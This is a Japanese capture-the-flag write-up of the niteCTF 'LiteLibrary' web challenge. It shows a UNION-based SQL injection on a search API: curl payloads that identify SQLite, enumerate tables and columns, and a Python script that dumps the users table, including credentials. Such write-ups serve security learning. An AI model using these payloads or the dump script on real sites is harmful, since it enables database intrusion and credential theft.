

# LiteLibrary:web:437pts
Testing in prod. No worries are long as we are lighte :)  
[http://litelibrary.web.nitectf.live/](http://litelibrary.web.nitectf.live/)  

# Solution
URLが渡される。  
アクセスすると本を検索できるサービスのようだ。  
  
サイトが検索リクエスト以外を送信していないため、検索APIに注目する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=_"
[{"title":"Things Fall Apart","author":"Chinua Achebe","pages":"209","imageLink":"images/things-fall-apart.jpg","link":"https://en.wikipedia.org/wiki/Things_Fall_Apart"}]
```
試しに`_`を送信すると先頭の本がヒットした。  
内部でDBが用いられていそうなので、SQLiを試す。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+1,1,1,1,1;+--+s"
[{"title":1,"author":1,"pages":1,"imageLink":1,"link":1}]
```
UNION-based SQLiが実行できる。  
まずはDBMSを特定する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+sqlite_version(),1,1,1,1;+--+s"
[{"title":"3.41.1","author":1,"pages":1,"imageLink":1,"link":1}]
```
SQLiteであるようだ。  
テーブル名を取得する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+group_concat(tbl_name),1,1,1,1+FROM+sqlite_master+WHERE+type='table';+--+s"
[{"title":"BOOKS,USERS","author":1,"pages":1,"imageLink":1,"link":1}]
```
`books`と`users`が存在するとわかる。  
`users`が怪しいのでカラム名を取得する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+group_concat(name),1,1,1,1+AS+column_names+FROM+pragma_table_info('users');+--+s"
[{"title":"Blindness","author":"José Saramago","pages":"352","imageLink":"images/blindness.jpg","link":"https://en.wikipedia.org/wiki/Blindness_(novel)"}]
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+1,group_concat(name),1,1,1+AS+column_names+FROM+pragma_table_info('users');+--+s"
[{"title":1,"author":"liteId,liteUsername,gender,liteNick,litePass,dateCreated","pages":1,"imageLink":1,"link":1}]
```
titleのチェックがあるのか、文字列が長いとBlindnessになってしまう。  
authorで取得すればよい。  
カラム名が分かったので以下のdump.pyで`users`の中身をダンプしてやる(`dateCreated`は不要だと予測)。  
```python
import requests

for i in range(0xff):
    res = requests.get(
        f"http://litelibrary.web.nitectf.live/api/search?q=s' UNION SELECT liteid,liteusername,gender,litenick,litepass FROM users LIMIT 1 OFFSET {i}; -- s"
    )
    print(res.text)
```
実行する。  
```bash
$ python dump.py
[{"title":"002cd316-affa-4455-b482-7a4d60e79eb4","author":"f043manh1nt0n","pages":"male","imageLink":"winters781241","link":"0ifnfgkijagmi"}]
~~~
[{"title":"28582015-49f6-43f8-9aad-a9e5d4a5687f","author":"madmaxfuryyyyy2344","pages":"male","imageLink":"nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}","link":"yeehaaw1amMadx"}]
[{"title":"291c0336-0f3d-49f0-8edb-129b68b98863","author":"40ch31le60nza135","pages":"female","imageLink":"beverly7070264","link":"6dd3a4f211bfca"}]
^C
```
imageLinkにflagが含まれていた。  

## nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}